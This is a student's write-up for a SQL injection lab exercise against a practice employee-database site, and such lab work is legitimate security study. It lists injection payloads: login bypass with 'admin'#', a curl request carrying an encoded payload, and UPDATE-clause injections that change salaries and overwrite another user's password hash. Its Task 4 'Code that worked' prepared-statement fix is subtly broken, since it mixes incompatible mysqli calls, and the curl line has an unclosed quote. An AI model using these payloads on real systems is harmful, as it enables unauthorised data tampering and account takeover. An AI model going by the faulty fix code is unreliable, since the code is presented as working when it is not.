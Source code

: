 ## Lab 04
## Ben Holmgren
## benjamin.holmgren1@student.montana.edu
## CSCI 476
## Due 3/9/2021 (noon)


### Task 1
Running 'select * from credential;' we obtain the list of the users in the
database.
Running 'select * from credential where Name='alice';' we get the password of Alice alone.

### Task 2.1
admin'#

### Task 2.2
curl 'www.seedlabsqlinjection.com/unsafe_home.php?username=alice%27%23 > file.html

### Task 2.3

admin'; update credential set Salary=99999999 where name='Alice';#
Doesn't work!

### Task 3.1

running Alice', Salary='99999999999999

### Task 3.2
running Samy', Salary='1' where Name='samy';#

### Task 3.3

Run Samy', password=SHA1('alicepassword') where Name='samy';#

And, to verify, just type select(SHA1('alicepassword');



### Task 4

Code that worked:

```
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn 

                        FROM credential

                        WHERE name = ? and password = ? ");



// Bind parameters to the query

$stmt->bind_param("ss", $input_uname, $hashed_pwd);

$stmt->execute();

$stmt->bind_result($id, $name, $eid, $salary, $ssn);

$stmt->fetch();



if ($stmt->num_rows > 0) {

  // only take the first row 

  $firstrow = $stmt->fetch_assoc();

  $id     = $firstrow["id"];

  $name   = $firstrow["name"];

  $eid    = $firstrow["eid"];

  $salary = $firstrow["salary"];

  $ssn    = $firstrow["ssn"];

}

```

